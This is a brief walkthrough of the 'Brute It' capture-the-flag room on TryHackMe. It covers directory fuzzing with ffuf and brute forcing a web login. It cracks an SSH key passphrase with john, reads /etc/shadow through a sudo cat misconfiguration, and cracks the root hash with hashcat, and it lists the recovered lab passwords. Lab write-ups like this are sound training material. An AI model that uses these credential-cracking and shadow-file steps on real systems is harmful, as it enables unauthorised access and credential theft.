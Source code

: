 # Brute It (THM)

- https://tryhackme.com/room/bruteit
- March 6, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- brute force directories

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128

admin      [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

- view page soruce at admin

```
 <!-- Hey john, if you do not remember, the username is admin -->
```

- I used turbo intruder in Burp and found
  `admin:xavier`

- Enter with that credentials
- got id_rsa key
- crack the id_rsa passphrase with john

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forjohn.txt
$ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `rockinroll` and username is john as it mentioned in website

## User Access

- Enter ssh with above credentials
- don't forget to change permission of id_rsa to 600

```sh
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- John has sudo permission to cat command and read the shadow file and copy the root password

## Root Access

- crack root password with hashcat
- `sudo cat /etc/shadow`
- grep first line which is root's password as root_cipher file

```sh
$ hashcat -m 1800 root_cipher /usr/share/wordlists/rockyou.txt
```

- `root:football`

---